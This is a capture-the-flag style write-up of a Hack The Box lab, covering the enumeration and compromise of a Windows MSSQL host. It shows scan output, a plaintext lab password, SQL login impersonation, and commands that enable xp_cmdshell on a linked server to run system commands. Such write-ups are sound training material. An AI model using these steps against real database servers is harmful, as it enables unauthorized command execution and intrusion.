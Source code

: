 # Assessment Hard

## Enumeration

### Rustscan

```
Open 10.129.203.10:135
Open 10.129.203.10:445
Open 10.129.203.10:1433
Open 10.129.203.10:3389

```

### NMAP

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 07:27 EDT
Stats: 0:02:45 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.45% done; ETC: 07:34 (0:04:26 remaining)
Stats: 0:03:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.92% done; ETC: 07:34 (0:03:55 remaining)
Nmap scan report for 10.129.203.10
Host is up (0.20s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.203.10:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.203.10:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-06-29T11:21:57
|_Not valid after:  2053-06-29T11:21:57
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2023-06-28T11:21:47
|_Not valid after:  2023-12-28T11:21:47
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2023-06-29T11:33:29+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (85%)
Aggressive OS guesses: Microsoft Windows Server 2019 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-06-29T11:33:32
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 389.45 seconds

```



<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

We have access to the smb share and got all the files which seems to be credentials of all of them.

* Fiona -> not sure what level and services
* John -> Database (in this box could be MSSQL)
* Simon -> not sure too

Tried Fiona with RDP and got the credentials.

<figure><img src="../../.gitbook/assets/image (49) (1).png" alt=""><figcaption><p>Fiona:48Ns72!bns74@S84NNNSl</p></figcaption></figure>

Connected to the RDP session but nothing found. Tried to use the credentials with windows authen to access the mssql

Where able to impersonate to another user using fiona

```
EXECUTE AS LOGIN = 'john'
```

Realized that in John's SMB there was a file hinting to the impersonation and external database (second database).

<figure><img src="../../.gitbook/assets/image (61) (1).png" alt=""><figcaption><p>information.txt</p></figcaption></figure>

Found remote database.

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption><p>WINSRV02\SQLEXPRESS</p></figcaption></figure>

But can't select the database server because of the impersonated user are not able to access.

I then realized that I can use the sqlcmd in the rdp session and get the list of users that I could impersonate.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption><p>john and simon</p></figcaption></figure>

user John doesn't have any more privilege than the user Fiona, I tried to use user Simon and it was able to access the database where Fiona and John can't.

Listing the database gave me 2 different users julio and patric.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>julio and patric</p></figcaption></figure>

I confirmed that both of them are not users of the operating system so the only option left is database user. I could try to access the database with the following user and try to change the database server.

Sadly both of them were unable to make a new connection to the database.

From the Hint on Hack the box forum I realized that the John user was an admin user but on the linked database. By so I could execute command through that server.

<pre class="language-sql"><code class="lang-sql">1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
<strong>1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'xp_cmdshell', 1;
</strong><strong>2> go
</strong><strong>Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
</strong><strong>1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];     
</strong><strong>2> go
</strong><strong>1> EXECUTE ("xp_cmdshell 'dir C:\Users'") AT [LOCAL.TEST.LINKED.SRV]
</strong><strong>2> go
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (46) (1).png" alt=""><figcaption><p>flag</p></figcaption></figure>

This assessment wasn't hard but impossible, given the contents in module, no one who just started the learning path could figure this out without help.
